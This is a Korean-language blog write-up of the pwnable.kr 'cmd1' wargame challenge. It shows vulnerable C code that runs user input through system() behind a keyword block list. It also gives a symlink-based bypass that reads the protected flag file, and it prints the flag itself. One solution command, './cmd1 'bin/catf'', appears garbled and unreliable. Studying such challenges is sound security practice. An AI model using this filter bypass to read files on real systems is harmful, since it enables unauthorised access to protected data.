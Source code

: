 ```yaml
---
title: Pwnable KR - cmd1
slug: pwnable-kr-cmd1
date: 2016-04-25 16:36:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd1](pwnable-kr-cmd1.png)

cmd1.c 파일 내용은 아래와 같다. argv[1]에 flag나 sh나 tmp가 들어가면 안되는 듯.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

## 풀이

export 명령어로 환경변수를 하나 지정해서 넣어주면 된다. 난 처음에 환경변수를 생각 못해서 좀 괴상하게 풀었다.

tmp를 못쓰면 tmp에서 하면 되지!! 해서 이렇게

```
$ mkdir /tmp/cmd1k
$ ln -s /home/cmd1/cmd1 /tmp/cmd1k/cmd1
$ ln -s /home/cmd1/flag /tmp/cmd1k/f
$ cd /tmp/cmd1k
$ ./cmd1 'bin/catf'
mommy now I get what PATH environment is for :)
$
```

mommy now I get what PATH environment is for :)

환경변수 출력을 어떻게 해야하는지 까먹었는데 이번 기회에 다시 알게되서 참 좋다. 1점 문제만 있으면 좋겠다.
